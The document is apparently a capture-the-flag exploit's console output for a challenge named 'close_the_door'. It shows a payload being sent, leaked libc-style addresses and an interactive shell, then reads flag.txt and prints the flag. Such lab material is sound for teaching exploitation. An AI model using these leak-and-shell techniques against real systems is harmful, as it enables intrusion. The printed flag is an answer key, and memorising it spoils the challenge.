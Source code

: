```
payload sent
result obtained b'\n> \x10\x82\x9e\x8cX\x7f\x00\x00Do you'
8
0x7f588c9e8210
0x7f588c975db0
b' think this is the secret password?'
[*] Switching to interactive mode

> $ whoami
ctf
$ ls
close_the_door    flag.txt  libc.so.6
$ cat flag.txt
CHTB{f_cl0s3d_d00r5_w1ll_n0t_st0p_us}
[*] Got EOF while reading in interactive
$ 
[*] Interrupted

```
